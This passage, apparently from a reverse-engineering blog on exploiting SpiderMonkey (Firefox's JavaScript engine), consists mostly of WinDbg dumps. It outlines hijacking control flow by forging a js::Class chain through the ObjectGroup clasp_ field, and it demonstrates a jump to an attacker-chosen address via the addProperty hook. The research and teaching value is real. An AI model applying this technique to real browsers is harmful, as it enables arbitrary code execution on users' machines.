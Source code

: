 ```text
   +0x000 name             : 0x00007ff7`f7f8e0e8  "Uint8Array"
   +0x008 flags            : 0x65200303
   +0x010 cOps             : 0x00007ff7`f7edc690 js::ClassOps
   +0x018 spec             : 0x00007ff7`f7edc730 js::ClassSpec
   +0x020 ext              : 0x00007ff7`f7edc930 js::ClassExtension
   +0x028 oOps             : (null) 

0:000> dt js!js::ClassOps 0x00007ff7`f7edc690
   +0x000 addProperty      : (null) 
   +0x008 delProperty      : (null) 
   +0x010 enumerate        : (null) 
   +0x018 newEnumerate     : (null) 
   +0x020 resolve          : (null) 
   +0x028 mayResolve       : (null) 
   +0x030 finalize         : 0x00007ff7`f7961000     void  js!js::TypedArrayObject::finalize+0
   +0x038 call             : (null) 
   +0x040 hasInstance      : (null) 
   +0x048 construct        : (null) 
   +0x050 trace            : 0x00007ff7`f780a330     void  js!js::ArrayBufferViewObject::trace+0

0:000> !address 0x00007ff7`f7edc690
Usage:                  Image
Base Address:           00007ff7`f7e9a000
End Address:            00007ff7`f7fd4000
Region Size:            00000000`0013a000 (   1.227 MB)
State:                  00001000          MEM_COMMIT
Protect:                00000002          PAGE_READONLY
Type:                   01000000          MEM_IMAGE
```

Naturally those pointers are stored in a read only section which means we cannot overwrite them directly. But it is fine, we can keep stepping backward until finding a writeable pointer. Once we do we can artificially recreate ourselves the chain of structures up to the `cOps` field but with hijacked pointers. Based on the above, the "earliest" object we can corrupt is the `js::ObjectGroup` one and more precisely its `clasp_` field.

Cool. Before moving forward, we probably need to verify that if we were able to control the `cOps` function pointers, would we be able to hijack control flow from JavaScript?

Well, let's overwrite the `cOps.addProperty` field directly from the debugger:

```text
0:000> eq 0x00007ff7`f7edc690 deadbeefbaadc0de

0:000> g
```

And add a property to the object:

```text
js> c.diary_of_a_reverse_engineer = 1337

0:000> g
(3af0.3b40): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
js!js::CallJSAddPropertyOp+0x6c:
00007ff7`80e400cc 48ffe0          jmp     rax {deadbeef`baadc0de}

0:000> kc
 # Call Site
00 js!js::CallJSAddPropertyOp
01 js!CallAddPropertyHook
02 js!AddDataProperty
03 js!DefineNonexistentProperty
04 js!SetNonexistentProperty<1>
```